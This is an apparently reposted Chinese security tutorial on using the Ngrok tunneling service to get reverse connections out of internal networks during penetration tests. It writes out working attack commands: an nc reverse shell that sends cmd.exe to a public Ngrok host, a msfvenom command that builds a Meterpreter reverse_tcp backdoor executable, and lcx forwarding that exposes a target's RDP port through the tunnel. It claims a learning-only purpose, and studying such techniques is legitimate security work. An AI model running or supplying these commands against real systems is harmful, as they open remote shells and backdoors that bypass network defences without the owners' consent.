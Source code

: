> 原文链接: https://www.anquanke.com//post/id/84590 


# 【技术分享】Ngrok内网穿透的几种利用


                                阅读量   
                                **245125**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**[![](https://p5.ssl.qhimg.com/t01e52efac0781c60ef.png)](https://p5.ssl.qhimg.com/t01e52efac0781c60ef.png)**

****

**作者：[Double8 ](http://bobao.360.cn/member/contribute?uid=269624429)**

**稿费：300RMB（不服你也来投稿啊！）**

**投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿**



**前言**

Ngrok的官方是这样介绍：一条命令解决的外网访问内网问题，本地WEB外网访问、本地开发微信、TCP端口转发。有tcp端口转发的功能，就尝试利用ngrok进行内网的穿透。Ngrok的网址：[http://www.ngrok.cc/](http://www.ngrok.cc/)。

渗透的时候，有时候我们是内网，对方服务器也是内网，而没有vps怎么办，而又想实现端口转发，而这时候可以利用ngrok进行tcp的端口转发，实现内网的穿透。而且支持mac，Linux和windows。

PS:本文具有一定的攻击性，只用于学习，以下实验都是在虚拟机上面实现，还要感谢佳哥的指导。

<br>

**Ngrok内网穿透的几种利用**

首先先到[http://www.ngrok.cc/login](http://www.ngrok.cc/login)这个平台登陆进行注册，然后就可以添加自己本地需要转发的地址和接收的端口。

[![](https://p1.ssl.qhimg.com/t0142cdc324936f7f91.png)](https://p1.ssl.qhimg.com/t0142cdc324936f7f91.png)

选择需要的服务，填上外网需要接收的端口，和转发到本地的端口和地址,地址可以随意填。

**<br>**

**进行nc的反弹**

192.168.1.100是kali上面的ip，先选择对应的Linux版本，然后在Linux上面执行这句命令。

```
./sunny clientid 客户端id
```

当看到这个界面的时候，就可以进行转发了。

[![](https://p3.ssl.qhimg.com/t01db8ffaa6cc442ceb.png)](https://p3.ssl.qhimg.com/t01db8ffaa6cc442ceb.png)

在要接收的Linux机器上面执行这个命令,进行监听：

 [![](https://p2.ssl.qhimg.com/t01cf0909c79c25fe2d.png)](https://p2.ssl.qhimg.com/t01cf0909c79c25fe2d.png)

在内网的机器当中执行这个命令：

```
nc -vv server.ngrok.cc 11226 -e c:WindowsSystem32cmd.exe
```

 [![](https://p2.ssl.qhimg.com/t01ed781969aa9b069c.png)](https://p2.ssl.qhimg.com/t01ed781969aa9b069c.png)

成功接收，有点意思吧。

<br>

**msf的反弹**

当没有一台外网的vps的时候，msf的利用是比较难的。但利用这个可以实现端口的转发。就可以实现即使在内网中也可以玩转msf。用法如下：

先启动服务，kali上面执行这个命令：./sunny clientid 客户端id。http://p6.qhimg.com/t01d4c3fff918b2f55e.png

这里实现的是由外网的端口转发到内网的12345端口当中:server.ngrok.cc(119.28.62.35):11226-&gt;192.168.1.102（kali的ip）:12345.

先生成一个后门：

```
msfvenom -a x86 --platform win -p windows/meterpreter/reverse_tcp LHOST=119.28.62.35 LPORT=11226 -f exe x&gt; back.exe
```

然后把后门放在内网的机器上面执行。

在kali上面监听的结果：

[![](https://p2.ssl.qhimg.com/t01628c99f63b2d5e48.png)](https://p2.ssl.qhimg.com/t01628c99f63b2d5e48.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011b0ee88f20808a19.png)

成功反弹。

<br>

**lcx实现的转发**

这次是在windows上面启动ngrok，所以选择相应的版本，先执行《Sunny-Ngrok启动工具.bat》，再输入客户端id：

[![](https://p1.ssl.qhimg.com/t019a956c80bc4ebf3d.png)](https://p1.ssl.qhimg.com/t019a956c80bc4ebf3d.png)

当看到以下界面就说明成功运行：

[![](https://p2.ssl.qhimg.com/t01a2c257526b21a2c2.png)](https://p2.ssl.qhimg.com/t01a2c257526b21a2c2.png)

首先本地进行监听：

```
lcx -listen 12345 33891
```

[![](https://p2.ssl.qhimg.com/t019ba867088aeba133.png)](https://p2.ssl.qhimg.com/t019ba867088aeba133.png)

然后将内网的3389转发出去，执行以下命令：

```
lcx.exe -slave server.ngrok.cc 11226 127.0.0.1 3389
```

[![](https://p3.ssl.qhimg.com/t019ba867088aeba133.png)](https://p3.ssl.qhimg.com/t019ba867088aeba133.png)

然后用访问本地33891端口进行连接：

[![](https://p5.ssl.qhimg.com/t01baef68b73eeff01a.png)](https://p5.ssl.qhimg.com/t01baef68b73eeff01a.png)

成功连接机器。

[![](https://p0.ssl.qhimg.com/t0150b48eed3ec04422.png)](https://p0.ssl.qhimg.com/t0150b48eed3ec04422.png)

   除了以上的方法，因为实现了端口转发，想利用的方式还是很多的，利用ssh端口的利用等。这里就不举例子了，自己可以尝试实现。
